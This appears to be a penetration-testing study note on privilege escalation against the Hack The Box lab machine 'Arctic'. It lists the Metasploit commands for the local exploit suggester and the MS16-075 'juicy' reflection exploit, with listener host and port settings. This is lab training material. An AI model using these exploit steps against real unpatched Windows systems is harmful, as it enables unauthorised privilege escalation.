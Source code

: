 - Got initial Foothold [[PNPT/WPE/Capstones/Arctic - HTB/Initial Foothold|Initial Foothold]]

# Enumeration
---
- Use metasploit's `multi/recon/local_exploit_suggester`
	- ![[Pasted image 20250419162108.png]]

# Exploitation
---
- Using `juicy`
	- `use exploit/windows/local/ms16_075_reflection_juicy`
	- `set lhost tun0`
	- `set lport 9002`
	- `set session 3`
	- `run`
- ![[Pasted image 20250419162212.png]]
- ![[Pasted image 20250419162221.png]]